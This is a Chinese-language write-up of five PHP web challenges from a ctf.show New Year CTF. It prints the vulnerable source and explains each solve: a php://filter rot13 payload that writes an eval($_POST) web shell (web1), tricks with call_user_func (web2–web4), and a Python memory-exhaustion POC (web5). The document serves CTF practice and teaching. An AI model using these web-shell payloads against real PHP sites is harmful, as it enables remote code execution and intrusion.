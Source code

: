 ## 写在前面

夜深人静~

——KonDream 2022年2月3日06:20:45

## web1

```php
<?php
highlight_file(__FILE__);

$content = $_GET[content];
file_put_contents($content,'<?php exit();'.$content);
```

知识点：伪协议是可以拼接，而且遇错会跳过继续执行后面的

``payload：php://filter/write=string.rot13|<?cuc riny($_CBFG[1]);?>/resource=shell.php``

利用rot13，这样在经过解码后<?cuc riny($_CBFG[1]);?>就会变成<?php eval($_POST[1]);?> 达到getshell的目的，然后就是蚁剑连找flag了

## web2

```php
<?php

highlight_file(__FILE__);
session_start();
error_reporting(0);

include "flag.php";

if(count($_POST)===1){
        extract($_POST);
        if (call_user_func($$$$$${key($_POST)})==="HappyNewYear"){
                echo $flag;
        }
}
?>
```

无限套娃，意思就是post这个参数必须是a=a这个样子，因为它会多次进行变量覆盖，如果是参数和值不同的话第二次套娃就找不到这个参了，这里利用session_id函数，控制PHPSESSID为HappyNewYear即可

## web3

```php
<?php

highlight_file(__FILE__);
error_reporting(0);

include "flag.php";
$key=  call_user_func(($_GET[1]));

if($key=="HappyNewYear"){
  echo $flag;
}

die("虎年大吉，新春快乐！");
```

弱比较，也就是说找一个无参函数且返回值为0的，翻了好久的手册，找到一个：gc_collect_cycles

介绍如下:

> ### gc_collect_cycles
>
>(PHP 5 >= 5.3.0, PHP 7)
>
>gc_collect_cycles — 强制收集所有现存的垃圾循环周期
>
>### 说明
>
>int gc_collect_cycles(void)
>
>强制收集所有现存的垃圾循环周期。 
>
>### 参数
>
>此函数没有参数。
>
>### 返回值
>
>返回收集的循环数量。 

## web4

```php
<?php

highlight_file(__FILE__);
error_reporting(0);

$key=  call_user_func(($_GET[1]));
file_put_contents($key, "<?php eval(\$_POST[1]);?>");

die("虎年大吉，新春快乐！");
```

纯是考察php函数的掌握程度了，学到了学到了

>### spl_autoload_extensions
>
>(PHP 5 >= 5.1.0, PHP 7)
>
>spl_autoload_extensions — 注册并返回spl_autoload函数使用的默认文件扩展名。
>
>### 说明
>
>string **spl_autoload_extensions**([string `$file_extensions`])
>
>本函数用来修改和检查``[__autoload()]``函数内置的默认实现函数``[spl_autoload()]``所使用的扩展名。   
>
>### 参数
>
>- `file_extensions`
>
>当不使用任何参数调用此函数时，它返回当前的文件扩展名的列表，不同的扩展名用逗号分隔。要修改文件扩展名列表，用一个逗号分隔的新的扩展名列表字符串来调用本函数即可。中文注：默认的spl_autoload函数使用的扩展名是".inc,.php"。       
>
>### 返回值
>
> 逗号分隔的[spl_autoload()](mk:@MSITStore:C:\Users\dell\Desktop\PHP7中文手册(2018).chm::/res/function.spl-autoload.html)函数的默认文件扩展名。 

当无参数调用这个函数时，会返回.inc,.php文件，这样就把马写进一个php文件了，厉害。

## web5

```php
<?php

error_reporting(0);
highlight_file(__FILE__);


include "🐯🐯.php";
file_put_contents("🐯", $flag);
$🐯 = str_replace("hu", "🐯🐯🐯🐯🐯🐯🐯🐯🐯🐯🐯🐯🐯🐯🐯🐯🐯🐯🐯🐯🐯🐯🐯🐯🐯🐯🐯🐯🐯🐯🐯🐯", $_POST['🐯']);
file_put_contents("🐯", $🐯);

```

说实话，有点迷，因为限制了并发，所以不能用竞争来做，而是利用溢出。当超过php最大内存256MB时会报致命错误而导致后面的代码不执行，也就是第10行不会覆盖flag，这个题中每post两个字节的hu，就会被替换成32个🐯，也就是32*4=128字节，被放大了128/2=64倍，所以要想达到256MB，需要发送256/64=4MB的hu，也就是4×1024×1024/2=2^21次方个hu，经过实际测试，发送这么多会报403，从而无法拿到flag，想到服务器本身的数据是占据一定空间的，所以需要减少hu的数量，最后发现发送上限是2^19-7个(应该没错，如有错请指正)

POC：

```python
'''
Author: KonDream
Date: 2022-01-26 02:57:09
LastEditors:  KonDream
LastEditTime: 2022-02-11 02:17:13
Description:  
'''
import requests

url = 'http://c135b873-2c6b-4ecb-a394-2d01cb7972f0.challenge.ctf.show/'

data = {
     "🐯" : "hu" * (2**19 - 7)
}

r = requests.post(url, data)

print(r.status_code)

r1 = requests.get(url=url + "🐯")
print(r1.text[:50])
```

比较难的是数据不够的话就达不到溢出的效果，我之前就卡在了2^18和2^19这个数量级之间=-=